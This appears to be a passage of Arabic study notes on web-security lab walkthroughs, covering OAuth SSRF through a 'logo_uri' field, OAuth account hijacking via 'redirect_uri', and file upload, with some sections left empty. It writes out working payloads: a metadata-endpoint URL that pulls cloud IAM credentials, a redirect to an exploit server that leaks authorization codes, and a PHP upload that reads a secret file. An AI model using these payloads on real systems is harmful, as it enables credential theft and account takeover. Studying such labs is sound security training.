 - أرسل الطلب وسجل التطبيق الجديد واحفظ 
**client_id** الجديد من الاستجابة.
- **تأكيد الهجوم باستخدام Burp Collaborator**:
    - انتقل إلى طلب **GET /client/CLIENT-ID/logo** وقم بتحديث **CLIENT-ID** باستخدام **client_id** الجديد.
    - أرسل الطلب وافتح علامة التبويب الخاصة بـ **Collaborator** للتحقق من أي تفاعلات جديدة. لاحظ أنه تم محاولة جلب الشعار من خادم Collaborator، مما يؤكد نجاح الهجوم.
- **تنفيذ الهجوم الحقيقي باستخدام URL الهدف**:
    - عد إلى طلب **POST /reg**، واستبدل عنوان `logo_uri` برابط الوصول إلى البيانات الحساسة

```jsx
"logo_uri" : "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin/"
```

- 
    - أرسل الطلب واحصل على **client_id** الجديد.
- **الحصول على البيانات الحساسة**:
    - عد إلى طلب **GET /client/CLIENT-ID/logo** واستبدل **client_id** بالقيمة الجديدة التي حصلت عليها.
    - أرسل الطلب وتحقق من الاستجابة. ستحتوي على البيانات الحساسة

## **OAuth account hijacking via redirect_uri**

حدد طلب authorization request

الذي يبدأ بـ `GET /auth?client_id=[...]`،

**تجربة التحكم في redirect_uri**:

ستبدل قيمة

**redirect_uri**

بعنوان سيرفر الاستغلال الخاص بك. على سبيل المثال:

```
https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net

```

رسل الطلب وتابع إعادة التوجيه إلى سيرفر الاستغلال. انتقل إلى **access log** في سيرفر الاستغلال ولاحظ وجود مدخل يحتوي على **authorization code**. هذا يؤكد أنه يمكنك تسريب الأكواد إلى نطاق خارجي.

كمل clickjacking

## **Stealing OAuth access tokens via an open redirect**

## **Stealing OAuth access tokens via a proxy page**

# **File upload**

ايه الfile ⇒  

```jsx
<?php echo file_get_contents('/home/carlos/secret'); ?>
```
